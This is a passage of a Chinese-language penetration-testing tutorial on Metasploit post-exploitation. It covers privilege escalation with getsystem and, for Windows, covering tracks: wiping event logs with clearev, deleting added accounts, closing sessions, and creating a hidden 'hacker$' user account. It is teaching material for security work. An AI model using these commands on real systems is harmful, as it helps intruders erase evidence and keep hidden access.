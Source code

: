    （5）权限为system（如权限仍为普通用户，先使用getsystem）

   ![Tips_7](./痕迹清除/Tips_7.png)

   （6）再次使用指令，成功执行

   ![Tips_8](./痕迹清除/Tips_8.png)

## 0x02痕迹清除

### 1. **Windows篇**

- 删除添加的账号：net user 用户名 /del

  ![痕迹清除_1](./痕迹清除/痕迹清除_1.png)

- 删除日志：clearev（需要管理员权限）

  ![痕迹清除_2](./痕迹清除/痕迹清除_2.png)

- 关闭所有session连接：sessions -K

  ![痕迹清除_3 ](./痕迹清除/痕迹清除_3 .png)

- 目标主机创建隐藏用户【注意：需要管理员权限】：

  1. 使用shell命令进入cmd

  2. 使用$符号隐藏创建用户

     ```
     c:\Document and Setting\rush\Desktop > net user hacker$ hacker  /add
     ```

     ![痕迹清除_4](./痕迹清除/痕迹清除_4.png)

### 2. Linux篇
